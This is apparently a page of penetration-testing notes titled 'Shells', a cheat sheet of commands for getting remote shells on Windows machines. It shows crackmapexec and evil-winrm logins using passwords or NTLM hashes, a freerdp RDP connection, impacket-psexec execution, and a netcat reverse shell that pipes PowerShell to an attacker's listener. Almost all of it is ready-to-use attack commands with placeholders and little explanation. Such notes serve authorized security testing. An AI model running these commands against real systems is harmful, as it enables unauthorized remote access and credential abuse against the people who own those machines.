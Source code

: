 # Shells

## Evil-WinRM

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

### Test

```bash
cme winrm -i IP/hostname -u $USERNAME -p $PASSWORD/-H $LM_HASH
```

### Port : 5985

```bash
evil-winrm -i IP/hostname -u $USERNAME -H $HASH

evil-winrm -i IP/hostname -u $USERNAME -p $PASSWORD
```

## RDP - freerdp

```bash
freerdp /u:$user /p:$password /v:$ip
```

## `Impacket-psexec`

PSEXEC like functionality example using RemComSvc

```bash
impacket-psexec '$user:$password@$ip'
psexec.py $user:$pass@$ip
```

## `netcat`

```bash
# Windows
# server : 
nc.exe $ip $port -e powershell

# client : 
nc -lvnp $port
```
